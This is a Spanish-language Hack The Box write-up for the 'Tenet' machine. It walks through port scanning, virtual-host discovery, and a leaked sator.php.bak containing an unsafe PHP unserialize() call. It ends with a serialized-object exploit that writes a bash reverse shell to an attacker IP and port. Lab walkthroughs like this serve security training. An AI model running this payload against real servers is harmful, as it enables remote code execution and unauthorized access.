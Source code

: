 ```yaml
---
title: "Tenet - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/data/Tenet.png?raw=true"
  teaser_home_page: true
  icon: "assets/images/icons/Hackthebox2.png"
categories:
  - Writeup
  - HackTheBox
tags:
  - Bash
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/tenet/data/TenetHTB.png">
</p>

 La máquina **Tenet** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **medio** una calificación en el rank de 4.6, **5039 USER OWNS** y **4475 SYSTEM OWNS** con la ip **10.10.10.223** y un sistema operativo **Linux**.


## Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.214]** utilizando los parámetros:
  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/scanPort.png?raw=true">
</p>


Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,80**:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/Ports.png?raw=true">
</p>


Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - -sC: Script de enumeración básica de sondeo en puertos y servicios alojados.
  - -sV: Detección de versiones en servicios alojados en puertos.
  - -p : Puertos a inspeccionar.
  - -oN: Formatos de Nmap en los que se guardará el archivo.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/PortServ.png?raw=true">
</p>

De el escaneo de puertos y servicios no pudimos recolectar mucha informacion solo que en el puerto **22** esta alojado un servicio **ssh** y en el puerto **80** esta alojado un servicio **HTTP**, asi que el camino que seguiremos sera por este serviciom entrando al servicio por el navegador se logra ve lo siguiente:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/web.png?raw=true">
</p>

Un camino para poder descubrir subdirectorios es haciendo un **fuzzing** en la web en este caso usare la herramienta **gobuster**.


Haciendo el fuzzing pude descubrir que hay un wordpress corriendo en la web:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/wordpress.png?raw=true">
</p>

Al entrar a la ruta veo que la pagina se ve como si estuviera mal montada lo que puede ser un indicio de que probablemente se esta haciendo virtual hosting y entrando al código fuente de la pagina de puedo ver efectivamente que en algunas parte del código fuente se hace mención a **tenet.htb** así que agrego este host al **/etc/hosts** y al entrar volver a entrar a la pagina ya carga correctamente.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/web2.png?raw=true">
</p>

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/web3_000.png?raw=true">
</p>

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/web4.png?raw=true">
</p>

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/web5.png?raw=true">
</p>

Ya que podemos ver bien la pagina empezamos a enumerar y buscar información útil. En la pagina se encuentran unos posts y en uno de ellos se menciona que la pagina esta siendo migrada y ese mismo post tiene un comentario de un usuario "**neil**" el cual menciona lo siguiente:


>  did you remove the sator php file and the backup?? the migration program is incomplete! why would you do this?!
>
>-Neil

Ya sabiendo esto sabemos que puede existir un un sator.php y un archivo backup, haciendo fuzzing con gobuster no pude encontrar ningún recurso de estos, ya que tocamos el tema de visual hosting puede que esta misma tenga un subdominio así que probando **backup.tenet.htb** y **sator.tenet.php** ya que son los datos que conocemos y estamos buscamos.

Una vez que los agregamos al **/etc/hosts** y entramos vemos que el subdominio **sator.tenet.htb** nos funciono y ahí se encuentra el recurso **sator.php**.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/sator.png?raw=true">
</p>

En el post se menciona que hay un backup de este recurso así que intente ver si existía un archivo **.bak** y efectivamente así fue había un recurso **sator.php.bak**, este archivo lo pude descargar en mi maquina y contenía lo siguiente:

```bash
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

Lo que hace este archivo en php es deserializar un contenido que es envido por **GET** a **aerpo** y el contenido serializado se enviá a la clase **DatabaseExport** ya deserializado lo que hace la clase es actualizar un archivo users.txt que es el nombre que viene ya predefinido y la data que esta en blanco de este archivo pero con la funcion **update_db()** actualiza la data de **users.txt** a **Success** y luego con la clase **__destruct()** elimina el **users.txt** antiguo.

Si entramos a archivo en la url vemos que existe:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/tenet/scan/users.png?raw=true">
</p>

Encontre un post el cual explica a detalle como funciona una [**Exploiting PHP Deserialization**](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) en el post explica muy bien como explotar esto para poder conseguir un **RCE**.


Con lo visto en la web arme el siguiente archivo php para poder crear un arachivo php el cual contenga una **revershell**

```php
class DatabaseExport{
	public $user_file = 'winsad.php';
        public $data = '<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/10.10.15.125/443 0>&1\'"); ?>';
}

print urlencode(serialize(new DatabaseExport));
```

Lo que hace es crear la clases **DatabaseExport** la cual contiene los mismo valores que requiere el archivo y serializar **sator.php** para poder deserializarlo y actualizar la supuesta base de datos y el contenido es la revershell a mi equipo.
